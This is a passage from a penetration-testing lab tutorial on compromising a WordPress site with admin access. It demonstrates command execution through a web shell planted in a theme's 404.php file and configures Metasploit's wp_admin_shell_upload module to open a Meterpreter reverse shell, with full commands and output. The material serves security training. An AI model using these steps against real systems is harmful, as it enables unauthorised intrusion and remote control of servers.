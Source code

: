 Click on `Update File` at the bottom to save. We know that WordPress themes are located at `/wp-content/themes/<theme name>`. We can interact with the web shell via the browser or using `cURL`. As always, we can then utilize this access to gain an interactive reverse shell and begin exploring the target.

```shell-session
$ curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The [wp\_admin\_shell\_upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module from Metasploit can be used to upload a shell and execute it automatically.

The module uploads a malicious plugin and then uses it to execute a PHP Meterpreter shell. We first need to set the necessary options.

```shell-session
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```

We can then issue the `show options` command to ensure that everything is set up properly. In this lab example, we must specify both the vhost and the IP address, or the exploit will fail with the error `Exploit aborted due to failure: not-found: The target does not appear to be using WordPress`.

```shell-session
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options 

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   PASSWORD   firebird1                 yes       The WordPress password to authenticate with
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.42.195             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                        yes       The target port (TCP)
   SSL        false                     no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                         yes       The base path to the wordpress application
   USERNAME   john                      yes       The WordPress username to authenticate with
   VHOST      blog.inlanefreight.local  no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```
